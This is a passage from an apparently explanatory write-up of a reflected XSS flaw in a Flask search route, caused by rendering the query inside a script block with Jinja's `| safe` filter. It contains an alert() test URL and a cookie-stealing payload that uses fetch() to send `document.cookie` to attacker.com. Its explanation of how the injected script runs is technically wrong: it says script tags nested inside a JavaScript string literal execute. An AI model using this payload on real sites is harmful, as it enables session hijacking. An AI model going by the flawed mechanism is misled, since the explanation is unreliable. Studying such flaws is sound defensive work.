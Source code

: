    - However, within the `<script>` tag, the `query` is injected into a JavaScript variable using the `| safe` filter:
     ```javascript
     var searchTerm = "{{ query | safe }}";
     ```
     The `| safe` filter disables auto-escaping, allowing the raw user input to be inserted into the JavaScript code.

3. **XSS Exploitation:**
   - An attacker can craft a malicious URL to inject a script. For example:
     ```
     http://example.com/search?q=<script>alert('XSS')</script>
     ```
   - When this URL is accessed:
     - The `<script>alert('XSS')</script>` payload is inserted into the JavaScript variable `searchTerm` without escaping.
     - This results in the browser executing the injected script, displaying an alert box with the message `'XSS'`.
     
     The rendered JavaScript would look like:
     ```javascript
     var searchTerm = "<script>alert('XSS')</script>";
     ```
     In this case, the browser interprets the `<script>` tags and executes the `alert` function.

---

## **2. Exploitation Example**

Let's walk through a step-by-step exploitation scenario:

1. **Attacker Crafts Malicious URL:**
   ```
   http://example.com/search?q=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
   ```
   
2. **Victim Accesses the URL:**
   - The victim clicks on the malicious link or somehow navigates to the crafted URL.

3. **Server Renders Malicious Script:**
   - The Flask application processes the `/search` route and injects the malicious `query` parameter into the JavaScript context without proper sanitization due to the `| safe` filter.
   
4. **Browser Executes the Script:**
   - The injected JavaScript runs in the victim's browser, sending their cookies to the attacker's server:
     ```javascript
     var searchTerm = "<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>";
     ```
   - This results in the execution of `fetch('https://attacker.com/steal?cookie=' + document.cookie)`, sending the victim's cookies to the attacker's controlled domain.

5. **Attacker Gains Unauthorized Access:**
   - With the victim's cookies, the attacker can potentially hijack the victim's session, gain unauthorized access to their account, or perform other malicious activities depending on the application's security measures.

---